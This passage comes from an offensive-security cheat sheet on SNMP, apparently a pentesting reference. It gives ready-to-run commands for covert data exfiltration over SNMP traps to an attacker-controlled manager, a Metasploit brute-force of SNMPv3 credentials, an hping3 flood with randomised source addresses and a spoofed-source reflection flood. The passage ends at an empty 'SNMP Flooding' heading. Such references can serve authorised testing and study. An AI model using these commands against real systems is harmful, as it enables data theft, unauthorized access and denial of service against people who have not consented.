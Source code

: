 #### Exfiltrating Data via Trap Covert Channels

* **Tool:** \[\[SNMPTrap]]

```bash
snmptrap -v2c -c public <manager_ip> "" .1.3.6.1.2.1.1.3.0 .1.3.6.1.4.1.8072.2.3.0.1 s "exfiltrated_data"
```

* **Description:** Use SNMP traps to covertly transmit sensitive information to an attacker-controlled SNMP manager.

## Exploits and Attacks

### Password Attacks

#### Brute-Forcing SNMPv3 Credentials

* **Tool:** \[\[Metasploit]]

```bash
use auxiliary/scanner/snmp/snmp_login
set RHOSTS <target_ip>
set VERSION 3
set USERNAME snmpv3user
set PASS_FILE /path/to/password_list.txt
run
```

* **Description:** Attempts to brute-force SNMPv3 credentials to gain unauthorized access.

### Denial of Service

#### TCP/UPD Flood Attack

*   **Tool:** \[\[HPing3 Cheat Sheet]]

    ```bash
    hping3 <target_ip> -p <target_port> --flood --rand-source -c 1000
    ```
* **Description:** Flooding the port with connection attempts, potentially leading to a denial of service.

#### TCP/UDP Reflection Attack

*   **Tool:** \[\[HPing3 Cheat Sheet]]

    ```bash
    hping3 <target_ip_1> -p <target_port> --spoof <target_ip_2> --flood --rand-source -c 1000
    ```
* **Description:** Execute a reflection attack by sending requests with a spoofed source IP, causing the target to flood the victim with responses.

#### SNMP Flooding
